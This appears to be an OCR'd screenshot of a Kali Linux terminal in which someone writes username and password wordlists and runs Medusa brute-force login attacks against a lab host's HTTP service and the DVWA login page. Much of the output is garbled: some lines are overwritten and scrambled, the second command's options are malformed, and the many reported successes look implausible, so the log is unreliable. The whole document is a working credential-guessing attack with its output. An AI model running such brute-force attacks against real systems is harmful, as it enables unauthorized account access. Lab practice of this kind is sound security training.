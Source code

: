 ┌──(root㉿kali)-[/home/kali]
└─# ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
                                                                                                                                                                      
┌──(root㉿kali)-[/home/kali]
└─# echo -e "user\nmsfadmin\nadmin\root" > user.txt        
                                                                                                                                                                      
┌──(root㉿kali)-[/home/kali]
└─# echo -e "123456\nmsfadmin\nqwerty\npassword" > pass.txt   
                                                                                                                                                                      
┌──(root㉿kali)-[/home/kali]
└─# medusa -h 192.168.57.3 -U user.txt -P pass.txt -M http\   
> 
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-24 14:29:42 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: 123456 (1 of 4 complete)
2025-10-24 14:29:42 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: 123456 [SUCCESS]
2025-10-24 14:29:42 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-24 14:29:42 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: 123456 [SUCCESS]
oot (3 of 3, 2 complete) Password: 123456 (1 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: 123456 [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin
                                                                                                                                                                      
┌──(root㉿kali)-[/home/kali]
└─# medusa -h 192.168.57.3 -U user.txt -P pass.txt -M http -m PAGE:"/dvwa/login.php" -m PAGE: 'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' tt6 
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

WARNING: Invalid method: PAGE.
WARNING: WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: PAGE.
WARNING: Invalid method: PAGE.
Invalid method: PAGE.
WARNING: WARNING: Invalid method: FAIL=Login failed.
Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
WARNING: Invalid method: FAIL=Login failed.
Invalid method: PAGE.
WARNING: Invalid method: FAIL=Login failed.
2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 1 complete) Password: password (1 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: password [SUCCESS]
2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 2 complete) Password: msfadmin (1 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 3 complete) Password: qwerty (2 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: msfadmin Password: qwerty [SUCCESS]
2025-10-24 14:34:19 ACCOUNT CHECK: [http] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 4 complete) Password: msfadmin (2 of 4 complete)
2025-10-24 14:34:19 ACCOUNT FOUND: [http] Host: 192.168.57.3 User: user Password: msfadmin [SUCCESS]
oot (3 of 3, 5 complete) Password: 123456 (1 of 4 complete)3 (1 of 1, 0 complete) User: admin
oot Password: 123456 [SUCCESS]UND: [http] Host: 192.168.57.3 User: admin